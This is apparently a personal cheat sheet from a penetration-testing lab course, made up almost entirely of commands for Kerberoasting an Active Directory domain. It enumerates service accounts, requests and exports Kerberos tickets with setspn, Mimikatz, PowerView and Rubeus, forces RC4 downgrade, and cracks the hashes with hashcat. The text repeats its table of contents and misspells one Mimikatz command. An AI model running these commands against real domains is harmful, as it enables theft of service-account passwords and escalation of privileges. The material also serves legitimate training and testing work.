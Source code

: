 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
      - [Retrieving All Tickets Using setspn.exe](#Retrieving\All\Tickets\Using\setspn.exe)
  - [Extracting Tickets from Memory with Mimikatz](#Extracting\Tickets\from\Memory\with\Mimikatz)
  - [Preparing the base64 Blob for Cracking](#Preparing\the\base64\Blob\for\Cracking)
        - [Extracting the Kerberos Ticket using kirbi2john.py](#Extracting\the\Kerberos\Ticket\using\kirbi2john.py)
      - [Modifying crack_file for Hashcat](#Modifying\crack_file\for\Hashcat)
      - [Cracking the Hash with Hashcat](#Cracking\the\Hash\with\Hashcat)
          - [Using PowerView to Target a specific Users](#Using\PowerView\to\Target\a\specific\Users)
    - [Using Rubeus.exe with the /stats flag](#Using\Rubeus.exe\with\the\/stats\flag)
        - [Using the /nowrap Flag](#Using\the\/nowrap\Flag)
          - [Requesting a New Ticket](#Requesting\a\New\Ticket)

## Table of Contents

      - [Retrieving All Tickets Using setspn.exe](#Retrieving\All\Tickets\Using\setspn.exe)
  - [Extracting Tickets from Memory with Mimikatz](#Extracting\Tickets\from\Memory\with\Mimikatz)
  - [Preparing the base64 Blob for Cracking](#Preparing\the\base64\Blob\for\Cracking)
        - [Extracting the Kerberos Ticket using kirbi2john.py](#Extracting\the\Kerberos\Ticket\using\kirbi2john.py)
      - [Modifying crack_file for Hashcat](#Modifying\crack_file\for\Hashcat)
      - [Cracking the Hash with Hashcat](#Cracking\the\Hash\with\Hashcat)
          - [Using PowerView to Target a specific Users](#Using\PowerView\to\Target\a\specific\Users)
    - [Using Rubeus.exe with the /stats flag](#Using\Rubeus.exe\with\the\/stats\flag)
        - [Using the /nowrap Flag](#Using\the\/nowrap\Flag)
          - [Requesting a New Ticket](#Requesting\a\New\Ticket)


`rubeus`: used for stealing/forging kerberos tickets

```powershell
setspn.exe -Q */*
```


```powershell
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1443"
```


#### Retrieving All Tickets Using setspn.exe

Retrieving All Tickets Using setspn.exe

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extracting Tickets from Memory with Mimikatz
```
mimikatz # base64 /out:true
---

mimikatz # kerbers::list /export

```

## Preparing the base64 Blob for Cracking
```shell
echo "<base64 blob>" |  tr -d \\n
```

##### Extracting the Kerberos Ticket using kirbi2john.py
```python
python kirbi2john.py sqldevl.kirbi
```


#### Modifying crack_file for Hashcat
```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```


#### Cracking the Hash with Hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

#powerview
```bash
Import-Module .\PowerView.ps1

Get-DomainUser * -spn | select samaccountname
```

###### Using PowerView to Target a specific Users
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

**Exporting all tickets to a CSV file**
```powershell
Get-DomainUser * -spn | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#rubeus
### Using Rubeus.exe with the /stats flag
```powershell
.\Rubeus.exe kerberoast /stats
```

##### Using the /nowrap Flag
```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

```powershell
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

[This Chart](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) denotes the different encryption types

```powershell
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

###### Requesting a New Ticket
```powershell
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
`/tgtdeleg` - Specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request.
```powershell
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```






















































